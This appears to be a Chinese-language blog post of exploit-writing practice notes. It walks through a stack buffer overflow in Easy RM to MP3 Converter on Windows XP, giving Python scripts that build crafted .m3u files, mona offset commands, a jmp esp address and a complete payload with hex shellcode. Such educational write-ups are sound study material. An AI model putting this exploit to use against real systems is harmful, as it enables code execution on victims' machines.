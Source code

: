 ```yaml
---
layout: post
title: "exploit编写笔记1"
description: "exploit"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}

很早以前对漏洞利用这一块就有所了解，当时觉得这些都是一些小tricky，玩的都是一些故意的玩具漏洞，这段时间准备重新拾起来，开始按照教材corelan上面的教材一个一个对着实际的漏洞写exploit。这是第一篇，古老的buffer overflow。因为之前都是OD or windbg，现在要练习一下Immunity Debugger。所以这篇都是用的Immunity。

**目标软件**

	Easy RM to MP3 Converter（版本2.7.3.700）

**工具**

	Immunity Debugger

**漏洞描述**

	通过创建一个恶意的.m3u文件将触发Easy RM to MP3 Converter (version 2.7.3.700)缓冲区溢出利用。

**测试平台**
	
	 Microsoft Windows XP Professional 5.1.2600 Service Pack 3 Build 2600

下面是详细的exploit步骤

<h3>1. 漏洞触发</h3>

我们首先构造一个30000个字符的.m3u文件，前面25000全为'A'，后5000个为'B'。下面是构造的脚本

		filename = "crash.m3u"
		f = open(filename,'w')
		data = 'A' * 25000 + 'B' * 5000
		f.write(data)
		f.close()

使用Easy RM to MP3 Converter加载这个crash.m3u文件，可以看到发生错误，查看详细信息，如图。

![](/assets/img/exploit1/1.PNG)

从图可以看到，溢出之后的返回地址是0x42424242，也就是'BBBB'，这说明要覆盖的EIP在25000到30000之间。下面使用Immunity的查件mona来进行精确定位。


<h3>2. EIP定位</h3>

使用Immunity Debugger加载Easy RM to MP3 Converter,Run起来，加载crash.m3u。遇到异常之后Immunity接手。

首先设置mona的工作目录：
	
	!mona config -set workingfolder c:\mona\%p

创建包含5000个字符的pattern：
	
	!mona pattern_create 5000
	
![](/assets/img/exploit1/2.PNG)

此时pattern文件在C:\mona\RM2MP3Converter\pattern.txt，将pattern中的5000个字符替换crash.m3u中最后5000个字符。脚本如下：
		
		filename = "crash_pattern.m3u"
		f = open(filename,'w')
		data = 'A' * 25000
		
		fp = open("pattern.txt",'r')
		data += fp.read()
		f.write(data)
		f.close()

pattern.txt是删除了mona生成的一些信息之后的纯5000个字符文件。再次打开目标软件加载crash_pattern.m3u，看到崩溃之后的EIP如下图所示：

![](/assets/img/exploit1/3.PNG)

在command中输入

	!mona pattern_offset 366a4235

![](/assets/img/exploit1/4.PNG)

我们看到EIP被修改的位置是25000 + 1067。

此时我们再用如下脚本测试一下位置是否正确：
	
		filename = "crash.m3u"
		f = open(filename,'w')
		data = 'A' * 26067 + 'B' * 4 + 'C'*100
		f.write(data)
		f.close()

![](/assets/img/exploit1/5.PNG)

我们可以看到，EIP现在是4个B，偏移正确，下面就是如何修改这个EIP

<h3>3. 寻找shellcode存放的地址空间</h3>

再次使用上面.m3u文件，崩溃时，打开栈的窗口

![](/assets/img/exploit1/6.PNG)

我们看到在ESP此时为000FF730，EIP到这里还有3*4=12个字节。ESP开始用于存放shellcode。

<h3>4. 查找jmp esp地址</h3>

再次加载目标程序，Run之后Pause，在CPU窗口，右键 Search For ->All commands in All modules，在之后的窗口输入jmp esp。


![](/assets/img/exploit1/7.PNG) 

我们选一个7C874413。

<h3>5. 构造最终的输入文件</h3>

		shellcode = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
		    "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
		    "\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
		    "\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
		    "\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
		    "\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
		    "\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
		    "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
		    "\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
		    "\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
		    "\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
		    "\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
		    "\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
		    "\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
		    "\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
		    "\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
		    "\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
		    "\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
		    "\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
		    "\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
		    "\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
		    "\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
		    "\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
		    "\x40\xFF\x54\x24\x40\x57\xFF\xD0");
		
		ret = "\x13\x44\x87\x7c";
		filename = "crash.m3u"
		f = open(filename,'w')
		data = 'A' * 26067 + ret + '\x90' * 12 + shellcode
		f.write(data)
		f.close()

![](/assets/img/exploit1/8.PNG) 

我们看到，成功利用了这个漏洞。
